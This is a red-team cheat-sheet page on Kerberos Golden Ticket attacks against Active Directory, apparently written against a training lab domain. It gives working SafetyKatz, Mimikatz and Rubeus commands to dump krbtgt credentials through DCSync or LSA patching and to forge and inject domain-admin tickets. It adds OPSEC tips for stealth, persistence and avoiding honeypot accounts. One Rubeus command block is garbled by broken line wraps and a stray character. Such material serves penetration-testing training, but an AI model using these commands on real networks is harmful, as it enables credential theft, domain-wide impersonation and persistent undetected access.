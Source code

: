# Golden Ticket

Golden Tickets are **forged Kerberos Ticket Granting Tickets (TGTs)** created using the NTLM hash or AES keys of the `krbtgt` account—an account responsible for signing all TGTs in an Active Directory (AD) domain. With this secret, attackers can generate valid TGTs for any user, including Domain Admins, effectively enabling **full domain impersonation**. Unlike Silver Tickets, which target service tickets, Golden Tickets provide domain-wide access and persistence.

This technique does not require domain membership, elevated privileges on the local host, or ongoing access to the domain controller (DC) after the `krbtgt` secret has been obtained. Since the `krbtgt` account password rarely changes, Golden Tickets remain a reliable and stealthy post-exploitation method even after Domain Admin credentials rotate.

<figure><img src="../../../.gitbook/assets/golden_tickets.png" alt=""><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

### OPSEC and Persistence

Golden Tickets are essentially a Kerberos-based Overpass-the-Hash. Forged TGTs are accepted by the Key Distribution Center (KDC) as valid because they're signed with the `krbtgt` secret. The only requirement is network access to the Kerberos port (88) on the DC. The attack can be performed from non-domain-joined machines.

Although DA credentials grant full access, they must follow the domain password policy and are likely to change. In contrast, the `krbtgt` account password is static by default, making Golden Tickets an ideal long-term persistence method.

Golden Ticket attacks provide red teamers with stealthy, persistent access at the domain level. They bypass typical credential hygiene defenses, work from non-domain assets, and can survive across password resets—unless the `krbtgt` password is rotated. For long-term access and minimal detection, prefer **AES keys over NTLM** and **use DCSync** to reduce footprint on DCs.

## Tools

{% tabs %}
{% tab title="krbtgt creds" %}
Create a session in the context of the compromised DA with [SafetyKatz](broken-reference) or [Rubeus](../ad-tools/rubeus.md):

{% code overflow="wrap" %}
```powershell
# Overpass-the-Hash with SafetyKatz
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"

# Overpass-the-Hash with Rubeus
.\Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

Next, there are two common ways to extract `krbtgt` credentials:

{% hint style="warning" %}
**OPSEC**: The DCSync method is preferred as it extracts both the AES256 key and NT hash and it does not touch the DC. The local dump method extracts just the NTLM hash and executes code on the DC.
{% endhint %}

```powershell
# DCSync (preferred, no code execution on the DC)
.\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt"

# Local dump on a DC (requires code execution)
.\SafetyKatz.exe '"lsadump::lsa /patch"'
```
{% endtab %}

{% tab title="GT Attack" %}
Previous tickets can be purged before executing the GT attack:

```powershell
# Delete any existing Kerberos tickets
.\mimikatz.exe "kerberos::purge" "exit"
```

[Rubeus](../ad-tools/rubeus.md) can be used to generate the GT-forging command from a non-elevated shell. The below command makes three queries to the DC to retrieve the following information:

1. Flags for the specified user
2. `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
3. `/netbios` of the current domain

{% hint style="warning" %}
**OPSEC**:&#x20;

* Target an active DA account and not just the default account; the latter may be dormant or act as a honeypot.
* Key parameters (SID, groups, UAC flags, etc.) can be pulled dynamically or specified manually for better stealth.
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Generate the ticket-forging command
.\Rubeus.exe golden /aes256:<aes256-key> /sid:<domain-SID> /ldap /user:Administrator /printcmd
```
{% endcode %}

Generate the Golden Ticket impersonating the target user:

{% code overflow="wrap" %}
```powershell
# GT attack with Rubeus
C:\AD\Tools\Rubeus.exe golden
/aes256:<aes256key>
8 /user:Administrator /id:500 /pgid:513
/domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-
3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1
/logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD
/ptt

# GT attack with Mimikatz
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain-SID> /krbtgt:<NThash> /ptt" "misc::cmd" "exit"
```
{% endcode %}
{% endtab %}
{% endtabs %}
